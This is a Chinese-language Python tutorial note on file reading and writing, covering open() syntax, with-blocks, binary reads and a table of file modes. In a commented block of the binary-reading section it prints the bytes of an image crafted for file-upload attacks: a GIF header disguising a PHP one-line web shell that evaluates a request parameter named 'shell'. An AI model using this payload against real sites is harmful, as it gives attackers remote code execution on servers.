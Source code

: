 ### 基本语法

```python
open('文件地址','读写模式',encoding='编码格式')
```

最开始的写法：

```python
try:
    f = open('工程学习\Pyhton\基本\基本库学习\IO编程\demo.txt','r',encoding='utf-8')
    print(f.read())
finally:
    if f:
        f.close()
```

常用规范写法：

```python
with open('工程学习\Pyhton\基本\基本库学习\IO编程\demo.txt','r',encoding='utf-8') as f:
    #print(f.read())
    for line in f.readlines():
        print(line.strip())
```



### 读

#### 读取图片（二进制文件）

```python
#读取二进制文件
#第一个图片是用于文件上传漏洞的
"""
with open("工程学习\Pyhton\基本\基本库学习\IO编程\muma.jpg",'rb') as f:
    print(f.read())

b"GIF89a\r\n<script language='php'>@eval($_REQUEST['shell']);</script>\r\n"
"""

with open("工程学习\Pyhton\基本\基本库学习\IO编程\mylogo.jpg",'rb') as f:
    print(f.read())
    
# xef\xaf]\xa4\xbfn\xc5\x14wc\x88\x83\x8f/\x0c\xd6\x7f\x9f\xf1\xd1s\xc0\xfb{g9~$k\x99e\x91Bj~FE\xcf\xd0\x1c\xd5Z\xb1s\x06.\x8cQG\'\x88S\x86o\xf9v\xa6\xcfo,\x04\tUW#a\xa8\x13\xf4\x15\xaa/F9-\x8c\x87b\xd9\xea\x86\xa2\x07*w\xc1\xe4\x0f\x9d=N\x18\xfaTc\x96)\xfb\x0b.q\t-\xdc@\xb6\x82\xed \nZ4\x9eP\xe0\x02w\xc6\x00\x03\xbd\xaa\xaf\xfb9\xc2\xc5\xd4\x92]][\xccmQ\x19Vh\xd0\xb0Yv*0\x06w\xc1\x1c\xba\xd6,\xa7\t\x10\xc2\x8c)\x04\x8c\xe5\xb7\xe6~\xbfj\xe8\xe3\xb8\xfe\t\xec\xf5\xb4\xf62<3\xdd\xbe\xa9a\xb9\x84ku\x1bwH\x18)\x9c\xecp|*\xa9\xe9R-\x82\xb9[!\xbc\xf6VkH^Y\xa5~\xd1\xc8\x10D\x10\xb1v;\xeeyr\xcf*l^\xc4{M<BD\xe1.\x11\x87t\xbc\xb1\xa9?"\xc0\.....
```



### 写

调整模式

```python
with open("工程学习\Pyhton\基本\IO编程\demo.txt",'w',encoding="utf-8") as f:
    f.write("Hello world")
```

> 但是'w'模式，会清空原内容，然后再写入



各种模式如下：

| 模式  | 描述                                                         |
| ----- | ------------------------------------------------------------ |
| `r`   | 读取模式，文件必须存在，否则抛出 `FileNotFoundError`         |
| `w`   | 写入模式，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `a`   | 追加模式，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `rb`  | 二进制模式读取，文件必须存在，否则抛出 `FileNotFoundError`   |
| `wb`  | 二进制模式写入，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `ab`  | 二进制模式追加，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `r+`  | 读写模式，文件必须存在，否则抛出 `FileNotFoundError`         |
| `w+`  | 读写模式，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `a+`  | 读写模式，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
| `rt`  | 文本模式读取，等同于 `r`                                     |
| `wt`  | 文本模式写入，等同于 `w`                                     |
| `at`  | 文本模式追加，等同于 `a`                                     |
| `x`   | 独占创建模式，文件必须不存在，否则抛出 `FileExistsError`     |
| `x+`  | 独占创建并读模式，文件必须不存在，否则抛出 `FileExistsError` |
| `rb+` | 二进制模式读写，文件必须存在，否则抛出 `FileNotFoundError`   |
| `wb+` | 二进制模式读写，如果文件已存在则清空内容，如果文件不存在则创建新文件 |
| `ab+` | 二进制模式读写，如果文件已存在则在末尾追加内容，如果文件不存在则创建新文件 |
